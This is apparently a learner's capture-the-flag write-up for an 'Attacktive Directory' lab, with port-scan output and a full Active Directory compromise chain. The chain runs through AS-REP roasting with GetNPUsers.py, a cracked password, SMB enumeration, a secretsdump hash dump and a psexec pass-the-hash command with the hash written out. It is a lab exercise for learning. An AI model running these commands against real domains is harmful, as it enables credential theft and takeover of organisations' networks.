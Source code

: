 # Attacktive Directory
<b>Target IP: <code>10.10.87.50</code></b>

 <p>
 	53/tcp   open  domain        Simple DNS Plus <br>
 	80/tcp   open  http          Microsoft IIS httpd 10.0<br>
 	88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-10 03:10:15Z)<br>
 	135/tcp  open  msrpc         Microsoft Windows RPC<br>
 	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn<br>
 	389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)<br>
 	445/tcp  open  microsoft-ds?<br>
 	464/tcp  open  kpasswd5?<br>
 	593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0<br>
 	636/tcp  open  tcpwrapped<br>
 	3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)<br>
 	3269/tcp open  tcpwrapped<br>
 	389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
 </p>
 <p>Let's look at the port 80 <img src="https://i.ibb.co/Qr56rVy/1.png" alt="1" border="0"></p>

<p>
	Using enum4kerb we found interesting users like backup and svc-admin. Using this command: <code>python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.87.50 spookysec.local/svc-admin -no-pass</code> We got a hash and using <code>john</code> we know that password is <i>management2005</i><br>
	Now let's use smbmap. <br>
	<code>smbmap -H 10.10.87.50 -d spookysec.local -u svc-admin -p management2005</code>
	<p>
		Using smbclient we get the the interesting file from backup directory and find there base64 encoded message. If we decode it we get these creds: <code>backup@spookysec.local:backup2517860</code><br>
		Using this command <code>secretsdump.py -just-dc backup@10.10.87.50</code> and the password we can get all the hashes. <br>
		Then we can use <code>psexec.py</code> to exploit the <i>pass the hash</i> attack and get access to the servers. <code>psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc administrator@10.10.87.5</code>
	</p>
</p>

**I am sorry for such a bad appearance, I am just learning to build articles in markdown**

